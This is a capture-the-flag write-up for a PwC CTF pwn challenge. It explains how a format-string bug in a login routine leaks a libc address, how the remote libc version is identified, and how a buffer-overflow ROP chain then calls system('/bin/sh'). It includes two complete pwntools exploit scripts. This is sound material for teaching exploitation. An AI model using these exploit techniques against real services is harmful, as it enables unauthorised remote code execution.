


# Hack The Binary 2


<div class="hidden">
    keywords: PwC CTF: Hack A Day 2023 - Securing AI, pwn, format string, ROP
</div>

## TL;DR

Format string to defeat ASLR, ROP to get RCE

## Initial Analysis

The given binary file is almost similar to `Hack the Binary 1`, but without the
flag lying around in the memory and array OOB. Instead, the `login()` function
is now susceptible to format string attack. Furthermore, it is also subjected to
buffer overflow as the `scanf` format is not restricted by length.

```c
__int64 login() {
  __int64 result; // rax
  char format; // [rsp+Ah] [rbp-6h]

  do {
    printf("Please Enter Password (4 digit numbers): ");
    __isoc99_scanf("%s", &format);
    printf("Your Password is ");
    printf(&format);  // <=== format string !!!
    putchar(10);
    result = password_checker(&format);
  } while ( (_DWORD)result != 1 );
  return result;
}
```

## Solution

The first step is to leak the stack and look for any interesting address,
particularly the one that points to libc memory space since we want to call
`system()` later on to pop a shell. The format string that would be discussed
in this writeup is `%n$llx` where `n` specify the stack offset and `llx` for
64-bit value in hex format.

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

for i in range(1, 16):
    leak = printf_leak(i)
    log.info(f"{i} {leak:#x}")

io.interactive()
```

Based on the result, the third entry is a libc address value.



One could also double check where is the libc memory region via `/proc/<pid>/maps`



Since the challenge does not come with a libc file, we could not directly compute
the offset between the leaked address with the base address of libc. The local
libc used in this writeup is of version `2.35-0ubuntu3`. Now, if we try to run
it against the remote server, we could see that the lowest 3 nibbles (hex digit)
is different (local is `a37`, remote is `a77`). We only compare the lowest 3
nibbles since ASLR does not affect these 3. This means that the remote server
is using a different libc version.


We need to check if the leaked address belongs to any libc function such that
we could use the known symbol as a lookup value on libc database like:

- <https://libc.rip>
- <https://libc.blukat.me>

Now, if we attached gdb to the process (that is running local binary), we could
see that the address lies within `__GI___libc_write`.


If we try to use the symbol name `__GI___libc_write` with the address
`0xa37-23 = 0xa20`, [libc.rip](https://libc.rip) returns us results. However,
there is no `2.35-0ubuntu3`. This means that the symbol name is not quite right.



If we try to break at the beginnning of the function, `gef` (gdb plugin)
labels the function as `write`.


Now, if we use replace the symbol name with `write` instead, we get more results
and `2.35-0ubuntu3` is among them.


Next, we just need to replace the address value with the one that we got from
remote server, i.e., `0xa77-23 = 0xa60`. If we diff the results between
`__GI___libc_write 0xa60` and `write 0xa60`, we could deduce that `libc6_2.35-0ubuntu3.4_amd64`
is probably the correct one. Click on the result and we could see various offsets,
e.g., `write`, `system`, `str_bin_sh`, etc. With the offset of `write`, we could
compute the libc base address on the remote side and then use the base address
to locate `system` function address within the process memory and various other
stuffs. Another thing that we need is also a `pop rdi; ret;` gadget which does not
exist in the binary file, but is available from the libc file.

Final solve script:

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)
libc = ELF("./libc.so.6", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

# for i in range(1, 16):
#     leak = printf_leak(i)
#     log.info(f"{i} {leak:#x}")

libc_leak = printf_leak(3)
libc.address = libc_leak - 0x114a60 - 23
log.info(f"{libc.address=:#x}")
pop_rdi = libc.address + 0x001bc0a1
ret = pop_rdi + 1
bin_sh = next(libc.search(b"/bin/sh\x00"))

payload = b"A" * 6
payload += p64(elf.bss(0xc00))
payload += flat(
    pop_rdi, bin_sh,
    ret,  # stack alignment
    libc.sym["system"]
)
io.sendline(payload)
io.sendline(b"1235")

io.interactive()
```
